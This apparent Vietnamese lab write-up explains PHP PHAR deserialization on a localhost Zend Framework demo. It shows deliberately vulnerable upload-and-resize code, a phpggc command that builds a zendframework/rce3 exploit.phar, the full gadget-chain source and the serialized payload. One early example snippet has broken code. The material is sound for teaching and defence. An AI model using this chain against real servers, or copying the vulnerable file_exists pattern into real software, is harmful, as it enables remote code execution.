









# PHP PHAR DESERIALIZATION DEMO

## 1. Tổng quan về lỗ hổng

**PHP PHAR Deserialization** là một lỗ hổng bảo mật nguy hiểm xuất hiện khi ứng dụng PHP xử lý file PHAR (PHP Archive) mà không kiểm soát đúng cách quá trình **giải tuần tự (unserialize)** dữ liệu chứa trong **metadata (siêu dữ liệu)** của file.
### Điều kiện khai thác lỗ hổng
1. Tìm được POP chain trong trong source code cần khai thác
2. Đưa được Phar file vào đối tượng cần khai thác
3. Tìm được entry point, đó là những chỗ mà các filesystem function gọi tới các Phar file do người dùng kiểm soát

## 2. Một số khái niệm
### 2.1. Deserialization
**Serialization** là quá trình xử lý, chuyển đổi các thuộc tính của một đối tượng thành một định dạng dữ liệu ví dụ như binary fomat, từ đó có thể lưu trên ổ đĩa, hoặc sử dụng vào các mục đích cần thiết khác, còn quá trình **Deserialization** là quá trình ngược lại.

Lỗ hổng Deserialization trong PHP hay còn gọi là PHP Object Injection, có thể giúp kẻ tấn công thực hiện nhiều loại tấn công khác nhau như:  [Code Injection](https://owasp.org/www-community/attacks/Code_Injection), [SQL Injection](https://owasp.org/www-community/attacks/SQL_Injection), [DoS](https://wiki.owasp.org/index.php/Application_Denial_of_Service),… tùy vào từng trường hợp cụ thể.

Để thực hiện khai thác thành công lỗ hổng này trên nền tảng PHP ta cần 2 điều kiện sau:

1. Đối tượng cần sử dung Magic method.
2. Tìm được POP chain, hay chính là có thể tùy chỉnh được các đoạn code trong quá trình hàm `unserialize()` được gọi.

### 2.2. Magic method
Magic method là các function đặc biệt trong các lớp của PHP, tên của các function này có hai dấu gạch dưới đứng trước, nó sẽ được gọi ngầm ở một sự kiện cụ thể, ví dụ như: `__sleep()`, `__toString()`, `__construct()`, …. Phần lớn trong số các function này sẽ không làm gì nếu không có sự khai báo, thiết lập của người lập trình. 
1. `__wakeup()`: Được gọi khi một đối tượng được deserialize.
2. `__destruct()`: Được gọi khi một kịch bản PHP kết thúc hoặc một đối tượng không còn được dùng trong code nữa và bị hủy bỏ.
3. `__construct()`: Được gọi khi một đối tượng được khởi tạo.
4. `__toString()`: Được gọi khi một đối tượng được gọi như một chuỗi.

**Ví dụ về magic method**
```php
<?php
class Test{
    public function __destruct() {
        echo 'destruct method </br>';
    }
    public function __wakeup() {
        echo 'wakeup method </br>';
    }
}

$test = new Test();
$serialize = $serialize($test);
$unserialize = $unserialize($serialize);
echo '123 </br>';
```


Đoạn code cho thấy function `__wakeup()` đã được gọi tới ngay sau khi đối tượng thuộc lớp **Test** được deserialize và khi kết thúc kịch bản PHP trên thì function `__destruct()` cũng ngay lập tức được gọi ngầm.

## 2.3. POP chain
**POP chain** (viết tắt của **Property-Oriented Programming chain**) là một chuỗi các **phương thức (methods)** được **kết nối tự động khi unserialize một đối tượng** trong lập trình hướng đối tượng, thường dùng để **khai thác lỗ hổng Insecure Deserialization** trong các ngôn ngữ như PHP, Java...

**Ví dụ về POP chain**
```php
<?php
class Logger{
    protected $writer;
    public function __construct($writer)
    {
        $this->writer = $writer;
    }

    public function __destruct(){
        $this->writer->shutdown();
    }
}

class Mail{
    protected $transport;
    public function __construct($transport){
        $this->transport = $transport;
    }

    public function shutdown(){
        $this->transport->send();
    }
}

class Sendmail{
    protected $callable;
    protected $to;
    public function __construct($callable, $to){
        $this->callable = $callable;
        $this->to = $to;
    }

    public function send(){
        call_user_func($this->callable, $this->to);
    }
}

$sendmail = new Sendmail('exec','calc');
$mail = new Mail($sendmail);
$logger = new Logger($mail);
```
Đoạn code trên là một POP chain được tạo bảo 3 gadget có thể dẫn tới RCE được biểu diễn theo sơ đồ sau


- Đầu tiên chèn đối tượng **Mail** vào thuộc tính `$writer`, tại dòng code 6 sẽ gọi đến phương thức `shutdown()` của lớp **Mail**.
- Tương tự chèn đối tượng **Sendmail** vào thuộc tính `$transport`, tại dòng code `$this->transport->send();` sẽ gọi tới phương thức `send()` của lớp **Sendmail**.
- Thay đổi giá trị của 2 thuộc tính `$callable = exec` và `$to = calc`.
- Cuối cùng hàm `call_user_func()` được gọi `call_user_func(“exec”, “calc”)` và ứng dụng Calculator trên Window sẽ được mở lên

Sơ đồ chuỗi khai thác

>Logger->__destruct() ➔ Mail->shutdown() ➔ Sendmail->send() ➔ call_user_func('exec', 'calc')

Attacker sẽ truyền vào được các tham số khác gây nguy hiểm.

# 3. Chi tiết lỗ hổng
## 3.1. Phar file trong PHP
Trong PHP, một **PHAR file (PHP Archive)** là một kiểu file nén đặc biệt dùng để đóng gói toàn bộ ứng dụng PHP (bao gồm code, thư viện, assets...) thành một file duy nhất, tương tự như .jar trong Java hoặc .zip.

Cấu trúc file **Phar** bao gồm
- Stub: đơn giản chỉ là một file PHP và ít nhất phải chứa đoạn code sau: <?php __HALT_COMPILER();
- A manifest (bảng kê khai): miêu tả khái quát nội dung sẽ có trong file
- Nội dung chính của file
- Chữ ký: để kiểm tra tính toàn vẹn (cái này là optional, có hay không cũng được)

Điểm đáng chú ý nhất trong cấu trúc của một Phar file đó là phần _manifest_, theo Manual của PHP thì trong mỗi một Phar file, phần _manifest_ có chứa các thông tin sau:



Nơi sẽ chứa những **Meta-data** đã được **serialize** và nó sẽ được **tự động unserialize** nếu được trigger bởi các **filesystem function** khi gọi đến một Phar thông qua `phar://` stream wrapper.

## 3.2. Filesystem function
Dưới đây là danh sách các filesystem function có thể trigger lỗ hổng này



## 3.3. `phar://` stream wrapper
Là một **stream wrapper** cho phép chúng ta có thể truy cập vào các file bên trong một file phar thông qua các **filesytstem function** như đã mô tả ở trên. Khi sử dụng `phar://`, PHP sẽ tự động đọc và unserialize phần metadata của file Phar, kích hoạt các magic method mà không cần gọi `unserialize()` trong code.

# 4. Khai thác 
Xây dựng demo 1 app resize ảnh đơn giản có chức năng upload, resize và download ảnh kết hợp với ImageMagick để resize ảnh sử dụng **Zend Framework** chứa đoạn mã có thể trigger lỗ hổng **php phar deserialization**. Sau đó khai thác lỗ hổng này trên app, ta có thể tự build hoặc sử dụng công cụ `phpgcc` để gen ra file phar chứa payload ở metadata. Với demo này đã lấy gadget chain và gen payload trên `phpggc`.

## 4.1. Môi trường xây dựng ứng dụng
- Language: `PHP 7.4.30`
- Framework: `Zend Framework 2.0.1`
- Web server: `Apache 2.4.54 (XAMPP v3.3.0)`
- Environment: `localhost`
- ImageMagick: `7.1.1-47`

## 4.2. Đoạn mã có thể khai thác lỗ hổng

```php
public function resizeAction()
    {
        $uploadDir = 'public/uploads/';
        $resizeDir = 'public/resized/';
        if (!is_dir($resizeDir)) {
            mkdir($resizeDir, 0777, true);
        }
        $images = array_diff(scandir($uploadDir), ['.', '..']);
        $message = '';

        $request = $this->getRequest();
        if ($request->isPost()) {
            $filename = $this->params()->fromPost('filename');
            $width = (int)$this->params()->fromPost('width');
            $height = (int)$this->params()->fromPost('height');

            $source = $filename;
            $target = $resizeDir . basename($filename);

            if (file_exists($source)) {
                $cmd = sprintf(
                    'magick.exe %s -resize %dx%d! %s',
                    escapeshellarg($source),
                    $width,
                    $height,
                    escapeshellarg($target)
                );
                exec($cmd, $output, $returnCode);

                if ($returnCode === 0) {
                    $message = 'Resize thành công bằng ImageMagick.';
                } else {
                    $message = 'Lỗi khi resize bằng ImageMagick.';
                }
            } else {
                $message = 'Ảnh không tồn tại trong thư mục uploads.';
            }
        }

        return new ViewModel([
            'images' => $images,
            'message' => $message,
        ]);
    }
```

Hàm `resizeAction()` bên trên sẽ chạy khi người dùng chọn ảnh, nhập kích thước muốn resize và nhấn **Resize**. Khi đó **filesystem function** `file_exists()` sẽ **tự động unserialize metadata và thực thi đoạn code đó** của `$source` khi mà nó là đường dẫn của 1 file **phar**.

## 4.3. Quy trình khai thác 
Với entry point bên trên tiếp theo cần tìm `POP chain` để khai thác được lỗ hổng này. Sử dụng công cụ `phpgcc` để gen payload, công cụ này có rất nhiều `gadget chain` khai thác các framework được xây dựng bằng **PHP**. Sau khi cài đặt công cụ sử dụng câu lệnh sau để gen ra payload sử dụng khai thác trong lần demo này.
```shell
php phpggc -p phar -o exploit.phar zendframework/rce3 system 'calc.exe'
```
Thành phần câu lệnh
- `-p phar`: Định dạng output
- `-o exploit.phar`: Tên file output
- `zendframework/rce3`: Gadget chain của Zend Framework cho RCE
- `system 'calc.exe'`: Câu lệnh hệ thống để PHP thực hiện tác vụ mở calculator trên Windows

File `exploit.phar` được tạo ra. Đã để trong source code bên trên. Tiến hành đẩy file trên vào chỗ cần khai thác và chạy.
Sử dụng Burp Suite để send request, thêm stream wrapper `phar://` để trigger và đoạn code trong metadata được thực thi.


Thực thi thành công và calculator được khởi động.

## 4.4. Phân tích POP chain đã sử dụng
Các gadget được lấy từ công cụ `phpgcc`
```php
<?php
namespace Zend\Log    {
    class Logger {
        protected $writers;

        function __construct($function, $param) {
            $this->writers = array(
                new \Zend\Log\Writer\Mail($function, $param)
            );
        }
    }
}

namespace Zend\Log\Writer {
    class Mail {
        protected $eventsToMail;
        protected $subjectPrependText;
        protected $numEntriesPerPriority;

        function __construct($function, $param) {
            $this->eventsToMail = array(0);
            $this->subjectPrependText = "";
            $this->numEntriesPerPriority = array(
                0 => new \Zend\Tag\Cloud($function, $param)
            );
        }
    }
}

namespace Zend\Tag  {
    class Cloud {
        protected $tags;
        protected $tagDecorator;

        function __construct($function, $param) {
            $this->tags = array("");
            $this->tagDecorator = new \Zend\Tag\Cloud\Decorator\HtmlCloud($function, $param);
        }
    }
}

namespace Zend\Tag\Cloud\Decorator {
    class HtmlCloud {
        protected $separator;
        protected $escaper;
        protected $htmlTags;

        function __construct($function, $param) {
            $this->separator = "";
            $this->htmlTags = array(
                "h" => array(
                    "a" => "!"
                )
            );
            $this->escaper = new \Zend\Escaper\Escaper($function, $param);
        }
    }
}

namespace Zend\Escaper {
    class Escaper {
        protected $htmlAttrMatcher;

        function __construct($function, $param) {
            $this->htmlAttrMatcher = array(
                new \Zend\Filter\FilterChain($function, $param),
                "filter"
            );
        }
    }
}

namespace Zend\Filter {
    class FilterChain {
        protected $filters;

        function __construct($function, $param) {
            $this->filters = new \SplFixedArray(2);
            $this->filters[0] = array(
                new \Zend\Json\Expr($param),
                "__toString"
            );
            $this->filters[1] = $function;
        }
    }
}

namespace Zend\Json {
    class Expr {
        protected $expression;

        function __construct($param) {
            $this->expression = $param;
        }
    }
}
```
Trong đó:

- **Zend\Log\Logger** – Entry point của chuỗi POP, khi đối tượng `Logger` được unserialize, nó chứa mảng `writers`, trong đó phần tử đầu tiên là một `Zend\Log\Writer\Mail`. Attacker sẽ truyền vào 2 tham số `$function` ví dụ (`system`) và `$param` ví dụ (`calc.exe`).

- **Zend\Log\Writer\Mail** – Một writer xử lý log qua email, tại đây kẻ tấn công gán một `Zend\Tag\Cloud` vào `numEntriesPerPriority[0]`, đảm bảo rằng chuỗi tiếp tục đến logic hiển thị tag mà không bị phá vỡ – đây là điểm gắn `Cloud` để dẫn đến decorator.

- **Zend\Tag\Cloud** – Lớp hiển thị tag cloud (giao diện gắn tag động), giữ một `HtmlCloud` trong `tagDecorator` để định nghĩa cấu trúc HTML của tag; class này truyền tiếp object xuống `HtmlCloud`, vốn có thể render trực tiếp và do đó dễ bị gọi trong các template.

- **Zend\Tag\Cloud\Decorator\HtmlCloud** – Dùng để render tag dưới dạng HTML, có thuộc tính `escaper` chứa đối tượng `Zend\Escaper\Escaper`; đây là điểm quan trọng vì trong quá trình escape dữ liệu, các callable trong `Escaper` sẽ có thể bị gọi, ví dụ qua filter logic.

- **Zend\Escaper\Escaper** – Chứa logic bảo vệ chống XSS, trong đó `htmlAttrMatcher` là mảng gồm `[FilterChain, 'filter']`; khi được gọi như một callable hoặc trong context escape HTML attributes, phần tử đầu tiên của mảng sẽ bị gọi, dẫn đến `FilterChain`.

- **Zend\Filter\FilterChain** – Quản lý chuỗi các filter áp dụng lên dữ liệu, ở đây được khởi tạo với `filters[0] = [Expr, '__toString']` để đảm bảo `Expr->__toString()` sẽ được thực thi khi filter chạy; `filters[1] = $function` là hàm thực tế (vd: `system`), đảm bảo payload được gọi hợp lệ.

- **Zend\Json\Expr** – Lớp đơn giản dùng trong JSON để biểu diễn biểu thức JavaScript, chứa thuộc tính `expression = $param` – ví dụ `"calc.exe"`; khi `__toString()` bị gọi (do framework hoặc escaping logic), giá trị payload sẽ được trả về trực tiếp, gây thực thi nếu đi kèm `system(...)`.

Đoạn chain để liên kết và thực thi các gadget trên
```php
<?php

namespace GadgetChain\ZendFramework;

class RCE3 extends \PHPGGC\GadgetChain\RCE\FunctionCall
{
    public static $version = '2.0.1 <= ?';
    public static $vector = '__destruct';
    public static $author = 'eboda';

    public function generate(array $parameters)
    {
        $function = $parameters["function"];
        $parameter = $parameters["parameter"];

        return new \Zend\Log\Logger($function, $parameter);
    }
}
```

Đoạn chain khi đã được serialize và được gán vào metadata của **Phar** file.
```php
O:15:"Zend\Log\Logger":1:{s:10:" * writers";a:1:{i:0;O:20:"Zend\Log\Writer\Mail":3:{s:15:" * eventsToMail";a:1:{i:0;i:0;}s:21:" * subjectPrependText";s:0:"";s:24:" * numEntriesPerPriority";a:1:{i:0;O:14:"Zend\Tag\Cloud":2:{s:7:" * tags";a:1:{i:0;s:0:"";}s:15:" * tagDecorator";O:34:"Zend\Tag\Cloud\Decorator\HtmlCloud":3:{s:12:" * separator";s:0:"";s:10:" * escaper";O:20:"Zend\Escaper\Escaper":1:{s:18:" * htmlAttrMatcher";a:2:{i:0;O:23:"Zend\Filter\FilterChain":1:{s:10:" * filters";O:13:"SplFixedArray":2:{i:0;a:2:{i:0;O:14:"Zend\Json\Expr":1:{s:13:" * expression";s:8:"calc.exe";}i:1;s:10:"__toString";}i:1;s:6:"system";}}i:1;s:6:"filter";}}s:11:" * htmlTags";a:1:{s:1:"h";a:1:{s:1:"a";s:1:"!";}}}}}}}}
```

**Deserialize tree**
``` 
Zend\Log\Logger
└── writers[0] = Zend\Log\Writer\Mail
    └── numEntriesPerPriority[0] = Zend\Tag\Cloud
        └── tagDecorator = Zend\Tag\Cloud\Decorator\HtmlCloud
            └── escaper = Zend\Escaper\Escaper
                └── htmlAttrMatcher[0] = Zend\Filter\FilterChain
                    └── filters[0] = [Zend\Json\Expr("calc.exe"), "__toString"]
                    └── filters[1] = "system"
```

## 4.5. Debug

### Nhập payload
Khi thực hiện khai thác và thêm stream wrapper `phar://` vào trước đường dẫn của ảnh. Biến `$source`đã nhận giá trị là đường dẫn của **phar** file. Khi filesystem function `file_exists()` được gọi, nó đã trigger để payload trong metadata của phar file tự dộng `unserialize` và thực thi đoạn code đó.
<p align="center">
  
    <p align="center"><em>Nơi trigger</em></p>
</p>

### Zend\Log\Logger::__destruct()
Như đã đề cập bên trên sau khi `Logger` bị hủy thì hàm `__destruct()` của class sẽ tự động được gọi tới.
<p align="center">
  
    <p align="center"><em>Khi gọi tới hàm Logger::__destruct()</em></p>
</p>

- Trong hàm `__destruct()` đã gọi tới phương thức `shutdown()` của đối tượng `$writer`.
- `$writer` là một instance của class `Zend\Log\Writer\Mail` như đã thấy trong chain và phần debug.

### Zend\Log\Writer\Mail::shutdown()
- Hàm `shutdown()` được định nghĩa tại `Zend\Log\Writer\Mail`
- Khi chạy hàm đầu tiên sẽ kiểm tra `$this->__eventsToMail` có phải mảng rỗng hay không, nếu nó rỗng thì hàm `shutdown()` sẽ thoát và không làm gì cả.
- Vì vậy ở chain đã set `$this->eventsToMail = array(0)` để mảng không rỗng.
<p align="center">
  
    <p align="center"><em>$this->_eventsToMail</em></p>
</p>

Tiếp đến là set `$this->subjectPrependText = ""` để thỏa mãn điều kiện `if ($this->subjectPrependText !== null)` 
<p align="center">
  
    <p align="center"><em>$this->subjectPrependText !== null</em></p>
</p>